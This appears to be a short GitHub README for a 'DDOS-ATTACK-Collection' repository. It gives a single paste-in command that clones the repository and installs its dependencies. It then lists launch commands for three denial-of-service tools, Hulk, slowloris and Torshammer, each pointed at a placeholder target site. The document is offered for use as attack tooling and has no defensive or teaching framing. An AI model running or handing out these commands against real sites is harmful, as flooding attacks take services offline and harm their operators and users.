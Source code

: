 # DDOS-ATTACK-Collection

**Copy "sudo git clone https://github.com/4lT4lR/DDOS-ATTACK-LINUX.git && cd DDOS-ATTACK-LINUX && pip install -r requirements.txt" And Past on Terminal Command For setup all tools require**

## Hulk-ATTACK :- 
**cd hulk && chmod +x * && python2 hulk.py YOUR_SITE_ATTACK**


## slowloris-ATTACK :- 
**cd slowloris && chmod +x * && python2 setup.py && python2 slowloris.py**

## Torshammer-ATTACK :-
**cd Torshammer && chmod +x * && python2 Torshammer.py YOUR_SITE_ATTACK**

